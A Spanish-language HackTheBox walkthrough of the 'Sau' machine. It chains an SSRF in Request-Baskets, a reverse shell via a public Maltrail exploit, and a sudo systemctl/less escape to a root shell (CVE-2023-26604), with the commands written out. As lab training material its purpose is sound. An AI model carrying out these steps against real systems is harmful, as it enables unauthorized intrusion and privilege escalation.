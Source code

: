 # HackTheBox Sau Walkthrough

Este documento proporciona un walkthrough detallado para comprometer la máquina Sau en HackTheBox, destacando las técnicas y herramientas clave empleadas en cada etapa.

## Tabla de Contenidos

- [Introducción](#introducción)
- [Reconocimiento](#reconocimiento)
- [Explotación](#explotación)
  - [Explotación de SSRF en Request-Baskets](#explotación-de-ssrf-en-request-baskets)
  - [Explotando Maltrail](#explotando-maltrail)
- [Post-Explotación](#post-explotación)
- [Conclusión](#conclusión)

## Introducción

El propósito de este walkthrough es documentar el proceso seguido para comprometer la máquina Sau, enfocándose en superar varios desafíos de seguridad para obtener acceso como usuario y, finalmente, acceso total.

## Reconocimiento

El reconocimiento es el primer paso crítico en cualquier prueba de penetración. Utilicé `nmap` para identificar los puertos abiertos y los servicios en ejecución en la máquina objetivo:

nmap -sC -sV -oN nmap_initial <IP de la máquina>

Los resultados revelaron los siguientes puertos abiertos:

- **22/tcp** - SSH
- **80/tcp** - HTTP (No respondía)
- **55555/tcp** - HTTP (Accesible)

![Nmap](/img/Nmap.PNG)

La solicitud al servidor HTTP a través del puerto 80 no obtuvo respuesta., pero el puerto 55555 reveló una aplicación web llamada **Request-baskets**.

![VentanaPrincipal](/img/Request-baskets.PNG)

## Explotación

### Explotación de SSRF en Request-Baskets

**Request-Baskets** es una herramienta para crear puntos finales temporales para inspeccionar solicitudes HTTP. La versión 1.2.1, que estaba en uso, es vulnerable a SSRF (Server Side Request Forgery). Aproveché esta vulnerabilidad para acceder a servicios internos, en particular, al servicio en el puerto 80.

![SSRF](/img/SSRF.PNG)

### Explotando Maltrail

El servicio interno redirigido resultó ser **Maltrail**, una aplicación web de monitoreo de tráfico malicioso. 

![Maltrail](/img/Maltrail.PNG)

Una búsqueda en Google reveló una vulnerabilidad en la versión específica en uso, permitiéndome ejecutar un reverse shell a través de un exploit disponible públicamente: https://github.com/spookier/Maltrail-v0.53-Exploit

python3 exploit.py [IP de escucha] [Puerto de escucha] [URL objetivo]

Utilicé Netcat para escuchar conexiones entrantes en el puerto especificado, lo que me permitió obtener acceso al sistema como el usuario **puma**.


## Post-Explotación

Dentro del directorio home del usuario **puma**, encontré el archivo `user.txt`, que contenía la flag de usuario.

![Usuario](/img/Usuario.PNG)

Ahora es el turno de escalar privilegios, la cual desde mi punto de vista es la parte más complicada.

Comienzo ejecutando el comando sudo -l, y observo que el usuario puma tiene permisos para ejecutar un servicio de systemctl como root.

![Sudoers](/img/sudol.PNG)

Teniendo en cuenta esto, compruebo cual es la version del servicio systemctl con el comando:

systemctl --version

![Systemctl](/img/SystemCtlVersion.PNG)


Realizo una búsqueda y encuentro una vulnerabilidad con la versión que observamos: CVE-2023-26604

Me ha costado bastante entender esta vulnerabilidad, pero dejo por aquí la explicación de lo que yo he entendido.

Para entenderla, primero es importante conocer algunos componentes involucrados:

- systemd: Es un sistema y gestor de servicios para Linux, utilizado para iniciar, detener y gestionar varios servicios y procesos durante el arranque del sistema y mientras el sistema está en funcionamiento.
  
- sudo: Es un programa para sistemas Unix y Linux que permite a los usuarios ejecutar programas con los privilegios de seguridad de otro usuario, normalmente el superusuario (root).
  
- less: Es un programa de paginación que permite ver (pero no cambiar) el contenido de un archivo de texto una pantalla a la vez. Es utilizado por muchos programas para mostrar texto. Y  permite al usuario invocar un shell o ejecutar comandos directamente desde su interfaz.

- LESSSECURE: Es una variable de entorno que, cuando se establece en 1, hace que less funcione en un "modo seguro", limitando algunas características para evitar posibles vulnerabilidades de seguridad.

La vulnerabilidad surge de la forma en que systemd maneja la ejecución de ciertos comandos (como systemctl status) cuando se invoca a través de sudo . En configuraciones específicas de sudoers que permiten a los usuarios no privilegiados ejecutar systemctl status mediante sudo (este es nuestro caso, como hemos visto al ejecutar el comando sudo -l), si el resultado del comando es demasiado extenso para caber en la pantalla, sudo invocará automáticamente a less para paginar la salida. Aprovechandonos de que less está ejecutado como root, aprovechamos para invocar un shell como root.

Para realizarlo:

- Ejecutamos el comando para el cual tenemos permisos de root: sudo /usr/bin/systemctl status trail.service

- Una vez ejecutado observamos que se ha ejecutado less, y escribimos : !/bin/bash

  ![EscaladoRoot](/img/EscaladoRoot.PNG)

Así conseguimos ejecutar una shell en bash con privilegios de root, una vez dentro nos dirigimos a la carpeta root y  observamos que está la flag de root, finalizando así el desafío.

## Conclusión

Este documento detalla el proceso seguido para comprometer la máquina Sau en HackTheBox, desde el reconocimiento inicial hasta la post-explotación. Este ejercicio subraya la importancia de la actualización de software, ya que como hemos visto, las vulnerabilidades aprovechadas se debían a software desactualizado.


